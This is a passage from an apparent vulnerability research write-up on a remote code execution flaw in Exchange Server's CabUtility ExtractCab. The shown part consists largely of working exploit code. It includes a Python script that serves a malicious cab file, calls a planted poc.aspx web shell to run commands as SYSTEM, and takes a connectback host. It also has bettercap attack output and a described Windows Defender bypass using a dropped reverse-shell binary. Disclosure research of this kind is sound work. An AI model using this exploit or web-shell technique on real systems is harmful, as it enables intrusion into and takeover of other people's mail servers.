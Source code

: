 ```py
            self.wfile.write(p)
            return

if __name__ == '__main__':
    if len(sys.argv) != 5:
        print("(+) usage: %s <target> <connectback> <revision> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.0.142 192.168.0.56 1337 mspaint" % sys.argv[0])
        print("(+) eg: %s 192.168.0.142 192.168.0.56 1337 \"whoami > c:/poc.txt\"" % sys.argv[0])
        sys.exit(-1)
    t = sys.argv[1]
    s = sys.argv[2]
    port = 8000
    r = sys.argv[3]
    c = sys.argv[4]
    print("(+) server bound to port %d" % port)
    print("(+) targeting: %s using cmd: %s" % (t, c))
    httpd = HTTPServer(('0.0.0.0', int(port)), CabRequestHandler)
    handlerthr = Thread(target=httpd.serve_forever, args=())
    handlerthr.daemon = True
    handlerthr.start()
    p = { "c" : "/c %s" % c }
    try:
        while 1:
            req = requests.get("https://%s/aspnet_client/poc.aspx" % t, params=p, verify=False)
            if req.status_code == 200:
                break
        print("(+) executed %s as SYSTEM!" % c)
    except KeyboardInterrupt:
        pass
```

On each attack attempt, the `Revision` number needs to be increased because the code will write the value into the registry and after downloading the manifest file, will verify that the file contains a higher `Revision` number before proceeding to download and extract the cab file.

### Bypassing Windows Defender

Executing `mspaint` is kool and all, but for Pwn2Own we needed a Defender bypass to `pop thy shell`. After [Orange Tsai](https://twitter.com/orange_8361) dropped the details of his [ProxyLogin](https://proxylogon.com/) exploit, Microsoft decided to attempt to detect asp.net web shells. So I took a different route than Orange by compiling a custom binary that executed a reverse shell and dropping it onto disk and executing it to side step Defender.

### Example Attack

We start by running Bettercap with the `poc.cap` caplet file:

```
researcher@pluto:~/poc-exchange$ sudo bettercap -caplet poc.cap
bettercap v2.28 (built for linux amd64 with go1.13.12) [type 'help' for a list of commands]

[12:23:13] [sys.log] [inf] Exchange Server CabUtility ExtractCab Directory Traversal Remote Code Execution Vulnerability
[12:23:13] [sys.log] [inf] Found by Steven Seeley of Source Incite
[12:23:13] [sys.log] [inf] http.proxy enabling forwarding.
[12:23:13] [sys.log] [inf] http.proxy started on 192.168.0.56:8080 (sslstrip disabled)
```
